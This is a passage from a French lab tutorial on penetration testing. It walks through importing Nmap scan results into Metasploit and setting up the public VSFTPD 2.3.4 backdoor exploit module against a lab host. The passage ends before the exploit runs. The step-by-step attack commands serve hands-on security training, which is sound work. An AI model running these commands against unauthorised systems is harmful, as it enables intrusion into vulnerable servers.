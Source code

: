 La version `2.3.4` de VSFTPD est connue pour contenir une backdoor.

### Étape 3 : Importation dans Metasploit (10 min)

Objectif : Utiliser les résultats de Nmap dans Metasploit pour faciliter l'exploitation.

```bash
# Démarrer PostgreSQL si nécessaire
sudo systemctl start postgresql

# Lancer Metasploit
sudo msfconsole

# Vérifier la connexion à la base de données
msf6 > db_status
[*] postgresql connected to msf

# Importer le scan Nmap
msf6 > db_import lab_scan.xml
[*] Importing 'nmap' data
[*] Import: Parsing XML data...
[*] Import: Successfully imported /path/to/lab_scan.xml

# Vérifier les hôtes importés
msf6 > hosts

# Vérifier les services importés (filtrer sur le port 21)
msf6 > services -p 21
```

### Étape 4 : Exploitation de VSFTPD avec Metasploit (15 min)

Objectif : Utiliser l'exploit Metasploit pour la backdoor VSFTPD 2.3.4.

```bash
# Rechercher l'exploit pour vsftpd 2.3.4
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor 2011-07-03     excellent Yes    VSFTPD v2.3.4 Backdoor Command Execution


# Utiliser l'exploit
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# Afficher les options requises
msf6 > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOSTS                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT  21               yes       The target port (TCP)

# Définir l'hôte cible (RHOSTS)
msf6 > set RHOSTS 10.10.10.100
RHOSTS => 10.10.10.100
```